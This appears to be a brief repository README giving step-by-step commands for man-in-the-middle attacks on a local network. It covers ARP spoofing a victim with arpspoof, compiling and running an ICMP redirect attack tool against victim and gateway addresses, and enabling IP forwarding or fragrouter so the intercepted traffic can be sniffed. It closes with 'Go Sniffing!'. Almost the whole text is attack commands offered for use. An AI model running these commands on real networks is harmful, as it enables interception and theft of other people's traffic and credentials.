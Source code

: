 #Scenario

###arpredirect
$ sudo apt-get install dsniff
$ arpspoof -i <eth0> -t <Victim IP> <Victim Gateway IP>

###icmpredirect

$ gcc -o icmp_redir_att icmp_redir_att.c
$ ./icmp_redir_att <Victim Gateway IP> <Victim IP> <Des Victim;DNS?> <MyIP>

###Packet Routing
 
Kernel based Routing
$echo 1 > /proc/sys/net/ipv4/ip_forward
 
Application based Routing
$fragrouter -B1


The End! Go Sniffing!

icmpredirect, It is impossible for newest OS.
